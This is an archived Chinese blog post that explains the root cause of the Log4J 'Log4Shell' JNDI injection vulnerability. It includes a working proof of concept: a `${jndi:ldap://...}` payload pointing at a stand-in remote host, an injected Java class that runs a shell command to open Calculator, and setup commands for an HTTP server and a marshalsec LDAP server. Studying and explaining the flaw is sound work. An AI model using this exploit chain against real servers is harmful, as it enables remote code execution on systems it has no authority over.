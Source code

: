 ```yaml
---
created: 2025-01-10T10:56:22
source: "https://www.ffutop.com/posts/2021-12-10-log4j-rce/"
type: "archive-web"
modified: 2025-01-15T11:38:15
---
```


12 月 10 日凌晨爆出的 Log4J 漏洞引起了广泛关注，被称为“核弹级”漏洞。费了一番功夫搞懂了来龙去脉，就用本文来剖析下漏洞根因。

## 前置知识：JNDI

Java 命名和目录接口 (JNDI) 为使用 Java 编写的应用程序提供命名和目录功能，以一种统一的接口形式支持 LDAP、DNS、RMI 等丰富的 SPI 实现，允许 Java 程序通过名称向目录服务查找并检出数据与对象。

![JNDI Arch](https://img.ffutop.com/945A6598-E86B-404E-AAB1-CE0F0679E91C.gif)

图源：[https://docs.oracle.com/javase/tutorial/jndi/overview/index.html](https://docs.oracle.com/javase/tutorial/jndi/overview/index.html)

另一方面，轻型目录访问协议 (LDAP) 等协议能够提供 Java 对象的目录存储范式\[3\]。

> LDAP can be used to store Java objects by using several special Java attributes. There are at least two ways a Java object can be represented in an LDAP directory:

1. Using Java serialization [https://docs.oracle.com/javase/jndi/tutorial/objects/storing/serial.html](https://docs.oracle.com/javase/jndi/tutorial/objects/storing/serial.html)
2. Using JNDI References [https://docs.oracle.com/javase/jndi/tutorial/objects/storing/reference.html](https://docs.oracle.com/javase/jndi/tutorial/objects/storing/reference.html)

其中取回的 Java 对象将被解码并最终被 Jdni Manager 执行——也就是支持远程代码执行。

```java
public void run() {
		Context context = new InitialLdapContext();
	  context.lookup("jndi:ldap://REMOTE.SERVER.COM:1389/a");
}
```

```java
LOGGER.error("user not found. username: {}", username);
```

一般来说，我们会在日志中记录用户输入，并以此来排查用户交互行为导致的各种异常。而这也是该漏洞被称为高危的原因。比如上例中的 `username` ，一旦恶意用户填充上 `${jndi:ldap://REMOTE.SERVER.COM:1389/a}`（由用户控制的 LDAP 服务器），Log4J 会填充 `{}` ，而更近一步，因为内容被替换为 `${xxx}` ，又触发了 `Context.lookup()`， 也就形成了 `JNDI Injection` ，向应用程序注入恶意代码，从而控制服务器等。

## PoC

需要注入的恶意代码，为目标 MacOS 打开 计算器。

```java
public class Injection {
    static {
        try {
            String[] cmd = {"bash", "-c", "open -a /System/Applications/Calculator.app"};
            java.lang.Runtime.getRuntime().exec(cmd).waitFor();
        } catch ( Exception e ) {
            e.printStackTrace();
        }
    }
}
```

上述代码使用 `javac` 编译后快速构建 HTTP 文件服务 `python -m SimpleHTTPServer`

利用 [`https://github.com/mbechler/marshalsec`](https://github.com/mbechler/marshalsec) 搭建 LDAP 服务。

```java
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer '<http://127.0.0.1:8000/#Injection>' 1389
```

漏洞程序如下

```java
public class log4j {
    private static final Logger logger = LogManager.getLogger(log4j.class);

    public static void main(String[] args) throws IOException, NamingException {
        BufferedReader br = new BufferedReader(new InputStreamReader(System.in));
        String username = br.readLine();
        logger.error("user not found. username: {}", username);
    }
}
```

启动漏洞程序并输入 `${jndi:ldap://127.0.0.1:1389}` 。

![](https://img.ffutop.com/9C5B023E-A1A1-41CE-AF84-3378ED3F180A.png)

## 参考

\[1\]. [https://nvd.nist.gov/vuln/detail/CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)

\[2\]. [https://docs.oracle.com/javase/jndi/tutorial/objects/index.html](https://docs.oracle.com/javase/jndi/tutorial/objects/index.html)

\[3\]. [https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE-wp.pdf](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE-wp.pdf)
